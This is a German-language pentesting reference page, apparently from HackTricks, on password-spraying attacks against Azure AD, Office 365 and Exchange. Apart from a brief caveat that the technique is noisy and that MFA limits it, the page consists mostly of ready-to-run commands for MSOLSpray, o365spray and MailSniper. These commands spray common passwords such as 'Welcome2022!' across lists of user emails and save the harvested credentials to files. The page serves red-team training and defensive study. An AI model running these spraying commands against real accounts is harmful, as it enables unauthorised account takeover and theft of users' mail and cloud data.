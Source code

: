# Az - Password Spraying

{{#include ../../../banners/hacktricks-training.md}}

## Password Spray

In **Azure** kann dies gegen **verschiedene API-Endpunkte** wie Azure AD Graph, Microsoft Graph, Office 365 Reporting-Webdienst usw. durchgeführt werden.

Beachten Sie jedoch, dass diese Technik **sehr laut** ist und das Blue Team sie **leicht auffangen** kann. Darüber hinaus kann **erzwungene Passwortkomplexität** und die Verwendung von **MFA** diese Technik weitgehend nutzlos machen.

Sie können einen Password Spray-Angriff mit [**MSOLSpray**](https://github.com/dafthack/MSOLSpray) durchführen.
```bash
. .\MSOLSpray\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\validemails.txt -Password Welcome2022! -Verbose
```
Oder mit [**o365spray**](https://github.com/0xZDH/o365spray)
```bash
python3 o365spray.py --spray -U validemails.txt -p 'Welcome2022!' --count 1 --lockout 1 --domain victim.com
```
Oder mit [**MailSniper**](https://github.com/dafthack/MailSniper)
```bash
#OWA
Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile owa-sprayed-creds.txt
#EWS
Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile sprayed-ews-creds.txt
#Gmail
Invoke-PasswordSprayGmail -UserList .\userlist.txt -Password Fall2016 -Threads 15 -OutFile gmail-sprayed-creds.txt
```
{{#include ../../../banners/hacktricks-training.md}}
